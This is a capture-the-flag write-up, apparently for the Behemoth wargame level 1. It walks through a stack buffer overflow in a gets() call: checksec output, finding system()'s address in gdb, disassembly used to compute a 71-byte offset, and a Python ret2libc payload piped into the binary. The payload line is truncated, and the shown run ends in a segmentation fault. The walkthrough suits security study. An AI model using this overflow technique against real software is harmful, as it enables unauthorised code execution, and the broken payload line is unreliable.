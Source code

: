 ```
behemoth1@behemoth:/behemoth$ checksec ./behemoth1
[*] '/behemoth/behemoth1'
     Arch:     i386-32-little
     RELRO:    No RELRO
     Stack:    No canary found
     NX:       NX disabled
     PIE:      No PIE (0x8048000)
     RWX:      Has RWX segments
```

Easy win! Now let's get the address of ```system``` and call it with ```/bin/sh```.

Now, just like in the before challenges, let's remove ```GDB```'s additional environment variables first. Though it probably doesn't matter since ```libc``` is already loaded in memory and shared by most processes.
```
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) set env _ /behemoth/behemoth1
```

Now for ```system```'s address.
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
```

And for the offset, we will look at the disassembly
```
 0804844b <main>:
 804844b:       55                      push   ebp
 804844c:       89 e5                   mov    ebp,esp
 804844e:       83 ec 44                sub    esp,0x44
 8048451:       68 00 85 04 08          push   0x8048500
 8048456:       e8 a5 fe ff ff          call   8048300 <printf@plt>
 804845b:       83 c4 04                add    esp,0x4
 804845e:       8d 45 bd                lea    eax,[ebp-0x43]
 8048461:       50                      push   eax
 8048462:       e8 a9 fe ff ff          call   8048310 <gets@plt>
 8048467:       83 c4 04                add    esp,0x4
 804846a:       68 0c 85 04 08          push   0x804850c
 804846f:       e8 ac fe ff ff          call   8048320 <puts@plt>
 8048474:       83 c4 04                add    esp,0x4
 8048477:       b8 00 00 00 00          mov    eax,0x0
 804847c:       c9                      leave
 804847d:       c3                      ret
 804847e:       66 90                   xchg   ax,ax
```

As it can be seen until our return address there are 0x43 + 4 bytes, so 71 bytes.

```
behemoth1@behemoth:/behemoth$ python -c 'print "a" * 71 + "\x50\xc8\xe4\xf7" + "a" * 4 + "/bin/sh\x0
> /tmp/payload
behemoth1@behemoth:/behemoth$ cat /tmp/payload - | ./behemoth1
Password: Authentication failure.
Sorry.
ls
Segmentation fault
```
